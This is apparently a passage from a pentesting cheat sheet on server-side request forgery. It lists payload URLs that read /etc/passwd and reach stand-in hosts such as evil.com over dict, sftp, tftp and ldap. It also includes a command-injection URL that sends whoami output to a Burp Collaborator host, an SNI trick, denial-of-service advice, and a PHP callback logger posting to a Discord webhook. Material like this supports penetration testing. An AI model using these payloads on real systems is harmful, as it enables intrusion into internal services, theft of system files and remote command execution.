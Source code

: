 ```bash
file:///etc/passwd
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
ssrf.php?url=sftp://evil.com:11111/
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
# Gopher://
Fortunately, you can use Gopherus[<https://github.com/tarunkant/Gopherus>] to create payloads for several services. Additionally, remote-method-guesser[<https://github.com/qtc-de/remote-method-guesser>] can be used to create gopher payloads for Java RMI services
```

## Other Test Cases

```bash
# SSRF via Referrer header
<https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-referrer-header>
# SSRF via SNI data from certificate  --> <https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate>
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlf
# Wget File Upload 
<https://book.hacktricks.xyz/pentesting-web/file-upload#wget-file-upload-ssrf-trick>
# SSRF with Command Injection
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`
# PDFs Rendering
If the web page is automatically creating a PDF with some information you have provided, you can insert some JS that will be executed by the PDF creator itself (the server) while creating the PDF and you will be able to abuse a SSRF. Find more information here. <https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf>
# From SSRF to DoS
Create several sessions and try to download heavy files exploiting the SSRF from the sessions.
# SSRf PHP Functions
```

## [Make you own SSRF tool](https://medium.com/@a1bi/ssrf-get-notified-on-discord-whenever-you-have-an-ssrf-5162a6daf8a3)

Host this PHP code after editing discord webhook in your server to get notified whenever there is SSRF&#x20;

````php
<?php
date_default_timezone_set('Asia/Kolkata'); //Change this if you need to

$date = date('Y-m-d H:i:s');


$ip_address = $_SERVER['REMOTE_ADDR'];

$user_agent = $_SERVER['HTTP_USER_AGENT'];

$endpoint = $_SERVER['REQUEST_URI'];

$log_message = "**Seems like you have a HIT**\n```Date: $date\t\nIP: $ip_address\t\nUser-Agent: $user_agent\t\nPath: $endpoint```\n";

// echo $log_message;
echo "<body><h1>Hit Me Harder :) </h1></body>";


$webhook_url = "https://discord.com/api/webhooks/10589949/E9uS3k9MxnI5CiIfmtmXHfornTObgZ_xl"; // replace with your webhook URL
````